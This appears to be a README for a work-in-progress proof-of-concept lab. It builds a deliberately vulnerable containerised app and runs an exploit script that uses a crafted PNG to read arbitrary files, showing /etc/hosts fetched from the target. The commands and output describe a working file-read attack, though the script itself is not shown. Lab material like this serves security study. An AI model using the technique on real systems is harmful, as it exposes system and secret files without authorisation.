 ## Container exploit playground

WIP

Steps to run:
* Build the image: `docker build -t poc .`
* Run the vulnerable app: `docker run --rm -p 3000:3000 poc`
* Trigger the exploit, passing in whatever file you want to cat from the poc: `./exploit.sh /etc/hosts`

Example output:
```shell
$ ./exploit.sh /etc/hosts
  Recompressing IDAT chunks in k8s.png to pngout.png
   Total length of data found in critical chunks            =    286254
   Best pngcrush method        =   7 (ws 15 fm 0 zl 9 zs 0) =    235241
CPU time decode 0.820487, encode 2.650206, other 0.001669, total 3.474239 sec
Found. Redirecting to /

Content of '/etc/hosts' on remote host:
127.0.0.1	localhost
::1	localhost ip6-localhost ip6-loopback
fe00::0	ip6-localnet
ff00::0	ip6-mcastprefix
ff02::1	ip6-allnodes
ff02::2	ip6-allrouters
172.17.0.3	48a345143cfd
```

